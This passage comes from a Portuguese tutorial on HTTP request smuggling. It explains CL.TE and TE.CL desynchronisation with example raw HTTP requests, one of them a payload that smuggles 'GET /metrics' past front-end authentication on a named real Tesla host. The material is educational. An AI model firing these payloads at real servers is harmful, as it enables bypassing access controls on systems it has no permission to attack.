 **O *payload* utilizado foi o seguinte**:

```http
POST /?cb=906971031432954 HTTP/1.1
Transfer-Encoding : chunked
Host: apm.ap.tesla.services
Connection: keep-alive
Content-Length: 65

1
Z
0

GET /metrics HTTP/1.1
Host: apm.ap.tesla.services
0
```

Neste caso, o front-end processou a requisição com base no Content-Length, enquanto o back-end a processou com base no Transfer-Encoding. Isso fez com que a requisição `GET /metrics` fosse "contrabandeada" para o back-end, contornando os controles de autenticação do front-end e concedendo acesso ao recurso protegido.

### Ataques TE.CL

Neste cenário, que é o inverso do CL.TE, o servidor de front-end prioriza o Transfer-Encoding, enquanto o servidor de back-end prioriza o Content-Length.

**Mecanismo de Ataque**

1. **Processamento pelo Front-end (baseado em TE)**: O front-end processa a requisição *chunked* e encaminha o que ele considera ser a requisição completa para o back-end.
2. **Processamento pelo Back-end (baseado em CL)**: O back-end, utilizando um Content-Length menor, lê apenas uma parte do corpo da requisição. O restante do corpo, que contém a requisição maliciosa, fica no buffer.
3. **Envenenamento do Socket**: A requisição maliciosa é pré-anexada à próxima requisição legítima.

**Exemplo Detalhado de Requisição TE.CL**:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

15
MALICIOUS-REQUEST
0
```

**Análise do Fluxo**:

1. O front-end vê `Transfer-Encoding: chunked`. Ele processa o primeiro *chunk* de `15` (21 em decimal) bytes e o *chunk* final de `0` bytes, encaminhando a requisição completa.
2. O back-end vê `Content-Length: 3`. Ele lê apenas os primeiros 3 bytes do corpo (`15\r`).
3. O restante do corpo, começando com `\nMALICIOUS-REQUEST...`, é deixado no buffer para envenenar a próxima requisição.

